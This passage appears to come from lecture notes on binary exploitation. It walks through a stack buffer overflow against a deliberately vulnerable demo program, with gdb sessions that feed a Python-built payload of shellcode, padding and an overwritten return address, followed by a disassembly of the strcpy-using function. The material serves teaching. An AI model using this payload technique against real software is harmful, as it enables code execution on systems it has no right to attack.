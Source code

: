 So the address we need to overwrite is 0xbffff5fc instead of 0xdeadbeef.
Let's give that a try:

``` example
gdb) r 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\xfc\xf5\xff\xbf'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\xfc\xf5\xff\xbf'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) c
Continuing.
[Inferior 1 (process 6932) exited normally]
```

And, we FAIL! What happened?

Let's do that again, and inspect the stack a bit more.

``` example
gdb) r 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\x1c\xf6\xff\xbf'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\x1c\xf6\xff\xbf'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) ni 6
0x080484f4 in vuln ()
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
   0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>:    mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>:    lea    eax,[ebp-0x2c]
   0x080484ec <+23>:    mov    DWORD PTR [esp],eax
   0x080484ef <+26>:    call   0x8048360 <strcpy@plt>
=> 0x080484f4 <+31>:    jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>:    lea    edx,[eax+0x1]
   0x080484fc <+39>:    mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>:    lea    edx,[ebp-0x2c]
   0x08048502 <+45>:    mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>:    mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>:    mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>:    call   0x8048350 <printf@plt>
   0x08048516 <+65>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>:    cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>:    jl     0x80484f6 <vuln+33>
   0x0804851e <+73>:    leave  
   0x0804851f <+74>:    ret    
End of assembler dump.
(gdb) 
```

